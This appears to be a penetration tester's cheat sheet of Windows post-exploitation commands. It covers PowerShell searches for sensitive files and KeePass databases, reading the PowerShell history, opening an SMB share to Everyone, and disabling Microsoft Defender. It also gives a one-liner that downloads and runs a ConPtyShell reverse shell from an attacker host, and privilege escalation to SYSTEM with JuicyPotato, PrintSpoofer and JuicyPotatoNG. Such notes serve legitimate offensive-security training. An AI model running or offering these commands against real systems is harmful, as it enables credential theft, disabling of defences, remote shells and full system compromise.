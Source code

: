 # PowerShell 
% Post-Exploitation search 

## PowerShell - search for specific file ending
#platform/windows #target/local #cat/OWN
```
Get-ChildItem -Path C:\<path> -Include *.<file_ending> -File -Force -Recurse -ErrorAction SilentlyContinue
```

## PowerShell - search all .txt & .ini files
#platform/windows #target/local #cat/OWN
```
Get-ChildItem -Path C:\Users\ -Include *.txt,*.ini -File -Force -Recurse -ErrorAction SilentlyContinue
```

## PowerShell - search ALL
#platform/windows #target/local #cat/OWN
```
Get-ChildItem -Path C:\ -Include *.pdf,*.xls,*.xlsx,*.doc,*.docx,*.zip,*.kdbx, -File -Force -Recurse -ErrorAction SilentlyContinue
```
## PowerShell - search ALL but exclude paths/filenames
#platform/windows #target/local #cat/OWN
```
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.config,*.ini,*.zip,*.kdbx,*.log -File -Force -Recurse -ErrorAction SilentlyContinue | Where-Object {
    $_.Name -ne "desktop.ini" -and $_.FullName -notmatch '\\Application Data\\' -and $_.FullName -notmatch '\\AppData\\' -and $_.FullName -notmatch '\\Local Settings\\'
}
```

## PowerShell - check PowerShell history
#platform/windows #target/local #cat/OWN
```
cat C:\Users\$env:username\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```


## PowerShell - recursivly search for keyword in files
#platform/windows #target/local #cat/OWN
```
Get-ChildItem -Recurse -Force | Select-String -Pattern '<pattern>'
```

% SMB

## PowerShell - create SMB share
#platform/windows #target/local #cat/OWN
```
New-SmbShare -Name "Share" -Path "<path|C:\Users\Public>" -FullAccess "Everyone"
```
## PowerShell - list SMB shares
#platform/windows #target/local #cat/OWN
```
Get-SmbMapping
```

## PowerShell - remove a SMB share
#platform/windows #target/local #cat/OWN
```
Remove-SmbMapping -RemotePath "\\<ServerName>\share"
```



## PowerShell - get 
#platform/windows #target/local #cat/OWN
```
$env:PATH -split ';'
```

## PowerShell - download file via Invoke-WebRequest
```
iwr -uri http://<ip>:2337/<path>/<file> -Outfile <file>
```

## PowerShell - disable Microsoft Defender
```
Set-MpPreference -DisableRealtimeMonitoring $true
```

% ConPtyShell
## PowerShell - download and execute ConPtyShell
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile IEX(IWR http://<ip>:<port|2337>/Windows/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell <ip> <port|6666>
```

## ConPtyShell - set terminal size to a half screen terminal
```
$width=211; $height=79; $Host.UI.RawUI.BufferSize = New-Object Management.Automation.Host.Size ($width, $height); $Host.UI.RawUI.WindowSize = New-Object -TypeName System.Management.Automation.Host.Size -ArgumentList ($width, $height)
```

## PowerShell - get current terminal size
```
$size = $host.ui.rawui.WindowSize
```

% Windows PrivEsc exploits

## JuicyPotato - escalate to SYSTEM via SetImpersonatePrivileges
```
.\JuicyPotato32.exe -l 1337 -p C:\inetpub\wwwroot\rev.exe -t * -c {F087771F-D74F-4C1A-BB8A-E16ACA9124EA}
```

## PrintSpoofer - escalate to SYSTEM via SetImpersonatePrivileges (Windows 10 and Server 2019)
```
.\PrintSpoofer64.exe -c powershell.exe
```

## JuicyPotatoNG - escalate to SYSTEM via SetImpersonatePrivileges (Windows 11 and Server 2022)
```
.\JuicyPotatoNG.exe -t * -p "C:\Users\public\conptyshell.exe" -a "192.168.45.211 7777"
```



## netsh - create port forward [ADMIN]
```
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215
```

## PowerUp.ps1 - invoke all checks
```
Invoke-AllChecks
```